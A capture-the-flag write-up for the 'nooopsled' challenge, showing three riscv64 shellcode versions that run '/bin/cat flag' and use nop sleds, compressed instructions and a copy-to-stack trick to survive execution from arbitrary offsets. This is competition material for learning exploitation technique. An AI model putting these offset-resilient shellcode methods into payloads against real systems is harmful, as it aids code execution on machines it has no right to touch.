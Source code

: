 # nooopsled
https://github.com/o-o-overflow/dc2020q-dc2020q-nooopsled-public
## Challenge
> Historically, shellcode was judged by what it could do. This outmoded
  way of thought was cast down in the revolution of August 2018, and a
  new Order was established: shellcode would be judged by how widely
  applicable it was to different machines. In 2019, this Order was refined:
  like all things, shellcode would be measured by how resilient it was to
  corruption.

> The time for change has come again. Shellcode must be ready for anything,
  regardless of where it's executed and *from when* it's executed. This is
  not easy, but the Order is kind. You will have some time to perfect your
  shellcoding skills.

> The Order will currently accept 85 failures. You may choose the
  architecture of the future: aarch64 or riscv64?
  What is your choice?

Basically the challenge is to write shellcode that successfully prints out the
`flag` file with execution starting at any offset within your shellcode. Failing
at the fewest number of offsets is the goal. Your shellcode must be exactly 1KB
in size. When your shellcode is executed from offset `x`, bytes `0` to `x-1` are
deleted and `x` zeros are appended to the end of your shellcode.

## Flag
`OOO{did_you_choose_the_right_architecture_for_the_job?}`

## Solution
I semi-arbitrarily chose riscv64 for this challenge

### First attempt - 784 failures
First things first, I had to write shellcode that ran `cat flag`. At this
point, all I cared about was getting something that worked for the base
case of no offset. Each instruction here was 32 bits, so my code was misaligned
and failed for three out of every four offsets in my nop sled.
```riscv64
    .global _start
    .text
_start:
    .fill 238, 4, 0x00000013    # nops

    lla s1, echo                # setup argv
    sd s1, -24(sp)
    lla s1, hi 
    sd s1, -16(sp)
    slt s1,zero,-1
    sd s1, -8(sp)

    lla a0, echo                # a0 = filename
    addi a1, sp, -24            # a1 = argv
    slt a2,zero,-1              # a2 = envp set to 0
    li a7, 221                  # execve = 221
    ecall                       # Do syscall

echo: .ascii "/bin/cat\0"
hi: .ascii "flag\0"
```

### Second attempt - 534 failures
Next, I disovered that the RISC-V instruction set has a Compressed instruction
extension that's enabled by default in qemu. This allows the processor to execute
16 bit instructions alongside its normal 32 bit instructions. This allowed my code
to be properly aligned for every other offset. 16 bit instructions
also allowed me to shrink the size of my vulnerable code and increase the size of
my nop sled.

Notes:
* I had give my assembler `-march=rv64ic` to allow it to use compressed instructions.
* You can hint to the assembler to use compressed instructions with the `c.` prefix.
  RISC-V documentation describes some compressed instructions such as `c.sdsp`
  (store double word at immediate offset from the stack pointer) that I couldn't get
  the assembler to properly recognize. However, if you use the compressed instruction's
  analogous normal instruction, the assembler will produce a 16 bit instruction.
  Positive offsets from the stack pointer were required to use the 16 bit version
  of `sd reg, imm(sp)`
* My nop sled here is `addi sp, sp, 0`
```riscv64
.global _start
    .text
_start:
    .fill 488, 2, 0x0101         # nops
    addi sp, sp, 24              # allocate stack

    jal s1, skip1                # put strings on stack
    .ascii "/bin/cat\0\0"
skip1:
    sd s1, 0(sp) 
    jal s1, skip2
    .ascii "flag\0\0"
skip2:
    sd s1, 8(sp)

    c.li s1, 0                  # terminate argv array
    sd s1, 16(sp)

    ld a0, 0(sp)                # a0 = filename
    mv a1, sp                   # a1 = argv
    c.li a2, 0                  # a2 = envp set to 0
    li a7, 221                  # execve = 221
    ecall                       # Do syscall
```

### Third solution - 75 failures
Now I needed to figure out a way for my shellcode to succeed with odd offsets.
Relative jumps with an odd immediate are impossible. Putting an odd address in
a register and jumping to that didn't work. Shifting my code by one byte while
running didn't work either.

The solution was to copy my main code to the stack and then jump to it whenever my
shellcode ran with an odd offset.
```riscv64
    .global _start
    .text
_start:
    .fill 469, 2, 0x1010
    j main                      # run normally when we're half-word aligned
    .fill 1, 2, 0x1010          # add one "10" to this padding after assembling

    # copy good code to stack and execute when we're not half-word aligned
    lla s0, end
    addi t0, s1, 52             # copying a little more than I need to, but it's fine
loop:
    lb s1, 1(s0)                # 1 offset bc we'll add one byte after assembling between lla and end
    sb s1, 0(sp)
    c.addi s0, -1               # decrement pointer to good code
    c.addi t0, -1               # decrement counter
    c.addi sp, -1               # decrement stack pointer
    bnez t0, loop
    jr sp                       # jump to stack

    .fill 1, 2, 0x1010          # remove one "10" from this padding after assembling

main:
    addi sp, sp, -24            # allocate stack

    jal s1, skip1               # put strings on stack
    .ascii "/bin/cat\0\0"
skip1:
    sd s1, 0(sp)
    jal s1, skip2
    .ascii "flag\0\0"
skip2:
    sd s1, 8(sp)

    c.li s1, 0                  # terminate argv array
    sd s1, 16(sp)

    ld a0, 0(sp)                # a0 = filename
    mv a1, sp                   # a1 = argv
    c.li a2, 0                  # a2 = envp set to 0
    li a7, 221                  # execve = 221
    ecall                       # Do syscall
end:
```

